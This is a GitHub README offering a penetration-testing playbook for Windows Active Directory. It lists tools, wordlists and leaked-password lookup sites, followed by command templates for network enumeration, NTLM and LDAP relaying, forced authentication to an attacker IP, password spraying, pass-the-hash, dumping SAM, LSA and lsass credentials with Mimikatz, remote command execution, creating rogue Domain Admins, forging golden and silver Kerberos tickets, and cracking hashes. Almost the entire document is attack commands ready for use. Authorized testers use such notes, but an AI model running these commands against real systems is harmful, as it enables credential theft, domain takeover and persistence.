 [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

https://www.n00py.io/2022/10/practical-attacks-against-ntlmv1/

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/rdp-mitm

https://www.thehacker.recipes/ad/movement/dacl/addmember

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader-adc.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  
  <details>
    <summary> Installation </summary>  
  
  #### Install the dependency NetExec
    
  ```shell
  apt install pipx git
  pipx ensurepath
  pipx install git+https://github.com/Pennyw0rth/NetExec
  ```
    
  #### Git clone the repository and make the script executable
  ```shell
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  #### Install requirements using the `install.sh` script (using standard account)
  ```shell
  chmod +x install.sh
  ./install.sh
  ```
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  sudo apt-get install bloodhound
  ```
  ```shell
  sudo neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
  
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  
  <details>
    <summary> Installation </summary> 
  
  #### Installation
  ```shell
  apt install netexec
  ```
  #### Integrate Bloodhound
  ```shell
  nano ~/.nxc/nxc.conf
  ```
  ```shell
  [BloodHound]
  bh_enabled = True
  bh_uri = 127.0.0.1
  bh_port = 7687
  bh_user = <username>
  bh_pass = <password>
  ```
  
  </details>

  ### go-secdump
  https://github.com/jfjallid/go-secdump
  <details>
    <summary> Installation </summary>

  ```shell
  sudo apt install golang-go
  git clone https://github.com/jfjallid/go-secdump
  cd go-secdump/
  go run main.go
  go build
  ```
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  
  <details>
    <summary> Installation </summary>
    
  ```shell
  gem install evil-winrm
  ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/p0dalirius/FindUncommonShares
  cd FindUncommonShares/
  pip install -r requirements.txt
  ```
  </details>
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
  #### Install prerequirements
  ```shell
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```shell
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```shell
  python3 setup.py install
  ```
  </details>

  ### certipty
  https://github.com/ly4k/Certipy

  ### Pre2k
  https://github.com/garrettfoster13/pre2k
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/garrettfoster13/pre2k.git && cd pre2k/
  ```
  ```shell
  pip3 install .
  ```
  </details>
  
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
  ```shell
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```shell
  python -m pip install colorama pysnmP
  ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Leaked password
<details>
  <summary> Sites </summary>   

  ### breachdirectory (free)
  https://breachdirectory.org/

  ### Records Search (free)
  https://search.0t.rocks/

  ### DeHashed
  https://www.dehashed.com/

  ### Snusbase
  https://snusbase.com/

  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```shell
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```shell
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```shell
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```shell
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```shell
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```shell
  nltest /dclist:<domainname>
  ```
</details>

<details>
  <summary> NetExec host enumeration </summary> 
  
  #### NetExec map network hosts 
  ```shell
  NetExec smb <subnet>
  ```
  
</details>

# Acitve directory enumeration

<details>
  <summary> NetExec active users </summary> 

#### Get what users are enabled
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> --active-users
```

</details>

<details>
  <summary> NetExec password policy </summary> 

#### Get the password policy of the domain
```shell
NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> --pass-pol
```

</details>

<details>
  <summary> NetExec BloodHound dump all info </summary> 

#### Dump 
```shell
NetExec ldap <Domain_Controller_IP> -d <Domain> -u <AD_user> -p <AD_password> --bloodhound --collection All
```

</details>

<details>
  <summary> BloodHound mark all relevant groups as highvalue </summary> 

#### Query
```shell
MATCH (x:Group)
WHERE x.highvalue=true
MATCH p=shortestPath((n:Group)-[r*1..]->(x)) 
WHERE x <> n
AND NONE (r in relationships(p) WHERE type(r) = "CanRDP")
SET n.highvalue = true
RETURN http://n.name, n.highvalue
```

</details>

<details>
  <summary> NetExec enumerate null sessions </summary> 

#### Check if Null Session is enabled
```shell
NetExec smb <Domain_Controller_IP> -u '' -p ''
NetExec smb <Domain_Controller_IP> -u '' -p '' --shares
NetExec smb <Domain_Controller_IP> -u '' -p '' --pass-pol
NetExec smb <Domain_Controller_IP> -u '' -p '' --users
NetExec smb <Domain_Controller_IP> -u '' -p '' --groups
```

</details>

<details>
  <summary> NetExec enumerate guest logon </summary> 

#### Check if domain guest account or the local guest account is enabled
```shell
NetExec smb <Domain_Controller_IP> -u 'a' -p ''
NetExec smb <Domain_Controller_IP> -u 'a' -p '' --shares
```

</details>

<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using netexec
      - Anonymous enumeration using netexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```shell
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using netexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - netexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```shell
  sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# Computer accounts 

<details>
  <summary> NetExec MachineAccountQuota </summary> 

#### Retrieve the MachineAccountQuota 
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M maq
```

</details>

<details>
  <summary> impacket-addcomputer </summary> 

#### Create a computer account
```shell
impacket-addcomputer -dc-ip <Domain_Controller_IP> -computer-name <Computer_Name> -computer-pass '<computer_password>' '<AD_domain>/<AD_user>:<AD_password>'
```

</details>

<details>
  <summary> Pre-Windows 2000 computers </summary> 

#### NetExec pre2k - obtain tickets
```shell
NetExec ldap <Domain_Controller_IP> -u <AD_user> -p <AD_password> -M pre2k
```

#### Pre2k
```shell
pre2k auth -d <AD_domain> -dc-ip <Domain_Controller_IP> 
```

</details>

# MITM and Relaying
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```shell
  sudo responder -I eth0
  ```

  Switches for Responder
  * -d = DHCP 
  * -D = DHCP-DNS
  * -w = WPAD
  * -F = Force WPAD atuh
  * --lm = Force ntlmv1
  * --disable-ess = No ESS (Extended Session Security
  
 </details>
 <details>
  <summary> NetExec lnkfile with slinky </summary> 
  
  ### Creates a lnk file for a share with read/write rights
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP>
  ```
   
  ### Remove the lnk file
  ```shell
  NetExec -smb <Target_IP> -u <AD_user> -p <AD_password> -M slinky -o NAME=<filename> SERVER=<attacker_IP> CLEANUP=True
  ```
    
</details>
<details>
  <summary> NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec smb <IPs> --gen-relay-list <nosmbsigning.txt>
  ```

  ### NTLMRelayx
  ```shell
  sudo impacket-ntlmrelayx -of <outfile.txt> -tf <nosmbsigning.txt> -smb2support
  ```

  ### go-secdump NTLM Relaying
  ```shell
  ./go-secdump --host <target> -n --relay
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> NTLMv1-relay </summary>   

  ### NTLMRelayx delegate access if NTLMv1 is enabled
  #### Authentication can be forced via NetExec's coerce_plus Module, check if the answer is in NTLMv1
  ```shell
  sudo python3 ntlmrelayx.py -t ldaps://<target> --remove-mic -smb2support --delegate-access
  ```

</details>

<details>
  <summary> LDAP-relay </summary>   

  ### Evaluate no ldap-signing and create an IP txt file for NTLMRelayx
  ```shell
  NetExec ldap <IPs> -d <Domain_Name> -u <AD_user> -p <AD_password> -M ldap-checker
  ```

  ### NTLMRelayx escalate user to Enterprise Admins (DCSync rights)
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<target> --escalate-user <AD_user>
  ```

  ### NTLMRelayx delegate access
  ```shell
  sudo impacket-ntlmrelayx -t ldaps://<target> --delegate-access
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```shell
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```shell
  sudo responder -I eth0 
  ```
</details>

<details>
  <summary> Kerberos-relay </summary>   

  ### In the works
  ```shell
  ---
  ```

</details>

<details>
  <summary> NetExecd coerce_plus </summary> 
  
  ### NetExec Coerce Authentication
  ```shell
  NetExec smb <target> -u <AD_user> -p <AD_password> -M coerce_plus -o LISTENER=<AttackerIP> METHOD=<method>
  ```
  ### Methods
  * PetitPotam
  * printerbug
  * dfscoerce
</details> 
  
# Password Spraying

<details>
  <summary> NetExec Password spray </summary> 
  
  ### Spray a password on a user list
  ```shell
  NetExec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 
  
  ```shell
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> 
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```shell
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec rdp authentication </summary> 
  
  ```shell
  NetExec rdp <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```shell
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares and export as xlsx </summary> 

```shell
python3 ./FindUncommonShares.py -au <username> -ap <password> -ad <AD_domain> -ai <Domain_Controller_IP> --readable --export-xlsx shares
```

</details> 

<details>
  <summary> Impacket smbclient </summary> 
  
### Passord authentication
```shell
impacket-smbclient <AD_domain>/<username>:<password>@<target_IP>
```

### Pass-the-Hash
```shell
impacket-smbclient -hashes <hash[LM:NT]> <username>:@<target_IP>
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```shell
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```shell
sudo umount <./folder>
```

### Search for keywords in files
```shell
grep -i <keyword> *
```

</details> 

# Delegation abuse

<details>
  <summary> BloodHound query for Delegation rights </summary> 
  
  ```shell
  MATCH q=(u)-[:GenericWrite|GenericAll|WriteDacl|
WriteOwner|Owns|WriteAccountRestrictions|AllowedToAct|AllowedToDelegate]->(:Computer) WHERE NOT
u.objectid ENDS WITH "-512" AND NOT
u.objectid ENDS WITH "-519" AND NOT
u.objectid ENDS WITH "-544" AND NOT
u.objectid ENDS WITH "-548" RETURN q
  ```
</details> 

<details>
  <summary> Netexec Misconfigured Delegation </summary> 
  
  ### Misconfigured Delegation
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --find-delegation
  ```

  ### Trusted for Delegation 
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 

<details>
  <summary> Constrained Delegation </summary> 
  
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> --trusted-for-delegation
  ```
    
</details> 
    
</details> 

# AD Certificates

<details>
  <summary> ESC1 </summary> 
  
  ```shell
  ----
  ```
</details> 

# Credential dumping

<details>
  <summary> Domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  ### Get ADCS server name
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```
  ### Retrieve the NT hash using PKINIT
  ```shell
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### NetExec Dump SAM with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```

  ### go-secdump Dump SAM with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --sam
  ```
  
  ### NetExec Dump LSA with domain user
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
   ### go-secdump Dump LSA with domain user
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --lsa
  ```

</details> 

<details>
  <summary> Local authentication </summary> 
  
  ### NetExec Dump SAM on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```

  ### sec-dump Dump SAM on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --sam --local
  ```
  
  ### NetExec Dump LSA on local computer
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### go-secdump Dump LSA on local computer
  ```shell
  ./go-secdump --domain <Domain_Controller_IP --host <target_IP> --user <username> ---pass <password> --hash <hash[LM:NT]]> --lsa --local
  ```

  ### NetExec  Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```

  ### Stored User Names and Passwords on Windows Credential Manager
  ```shell
  rundll32.exe keymgr.dll KRShowKeyMgr
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```shell
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```shell
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> Run Mimikatz from impackets smb share </summary> 

  ### Starting a SMB Server
  ```shell
  impacket-smbserver.py <shareName> <sharePath>
  ```
  
  ### Run Mimikatz from host and write output to the share
  ```shell
  \\<target_IP>\<shareName>\mimikatz.exe "privilege::debug: sekurlsa::logonpasswords exit" > \\<target_IP>\<shareName>\output.txt
  ```
  
</details> 

<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, netexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```shell
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> -K <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```shell
pypykatz lsa minidump lsass.DMP
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
  #### Task Scheduler
  ```shell
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```shell
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> pth-rpcclient </summary> 

  ```shell
  pth-rpcclient -U <AD_domain>/<username>%<hash[LM:NT]> <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> pth-net add new domain admin </summary> 

  ```shell
  pth-net rpc group addmem "Domain Admins" <username> -U <AD_domain>/<username>%<hash[LM:NT]> -S <Domain_Controller_IP>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  #### Create the new user
  ```Shell
  net user <username> <password> /add /domain
  ```

  #### Add the new user to the Domain Admins group
  ```Shell
  net group "Domain Admins" <username> /add /domain
  ```

  #### Add an user to the domain admin
  ```ps
  powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
  ```
</details> 

# AV Evasion

<details>
  <summary> NetExec </summary> 
  
  </details> 

</details> 
  
# golden and silver tickets

<details>
  <summary> Tickets </summary> 
  
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```shell
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```shell
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```shell
klist
```

#### Execute remote commands with any of the following by using the TGT
```shell
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

</details>

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```shell
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```shell
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```shell
  pret.py target {ps,pjl,pcl}
  ```
</details>

# Hash cracking
<details>
  <summary> Attack modes </summary> 

  ### Dictionary attack (-a 0)
  #### Tries all words in a list
  ```shell
  hashcat64.exe -m <hash_type> -a 0 <hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Combinator attack (-a 1)
  #### Combines words from multiple wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 1 <hashes.txt> <passlist1.txt> <passlist2.txt> -o cracked.txt
  ```

  ### Brute force (-a 3)
  #### Tries all characters from given charsets
  ```shell
  hashcat64.exe -m <hash_type> -a 3 <hashes.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 6)
  #### Combines wordlists+masks
  ```shell
  hashcat64.exe -m <hash_type> -a 6 <hashes.txt> <passlist.txt> ?a?a?a?a?a?a?a?a --increment -o cracked.txt
  ```

  ### Hybrid (-a 7)
  #### Combines masks+wordlists
  ```shell
  hashcat64.exe -m <hash_type> -a 7 <hashes.txt> ?a?a?a?a?a?a?a?a <passlist.txt> --increment -o cracked.txt
  ```

 #### Built-in charsets
 * ?l = abcdefghijklmnopqrstuvwxyz
 * ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
 * ?d = 0123456789
 * ?h = 0123456789abcdef
 * ?H = 0123456789ABCDEF
 * ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
 * ?a = ?l?u?d?s
 * ?b = 0x00 - 0xff
 
 #### Password length increment
* --increment-min <number>
* --increment-max <number>
</details>

<details>
  <summary> Hash types </summary> 

  ### LM

  ```shell
  hashcat64.exe -m 3000 -a 3 <LM-hashes.txt> -o cracked.txt
  ```

  ### NTLM
  ```shell
  hashcat64.exe -m 1000 -a 3 <NTLM-hashes.txt> -o cracked.txt
  ```

  ### NTLMv1
  ```shell
  hashcat64.exe -m 5500 -a 3 <NTLMv1-hashes.txt> -o cracked.txt
  ```

  ### NTLMv2
  ```shell
  hashcat64.exe -m 5600 -a 0 <NTLMv2-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```shell
  hashcat64.exe -m 18200 -a 0 <asrep-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```shell
  hashcat64.exe -m 13100 -a 0 <krb5tgs-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 <krb5tgsaes128-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
  hashcat64.exe -m 19700  -a 0 <krb5tgsaes256.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 <krb5tetype17.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 <krb5tetype18.txt> <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 <mscache2-hashes.txt> <passlist.txt> -o cracked.txt
  ```
  </details>

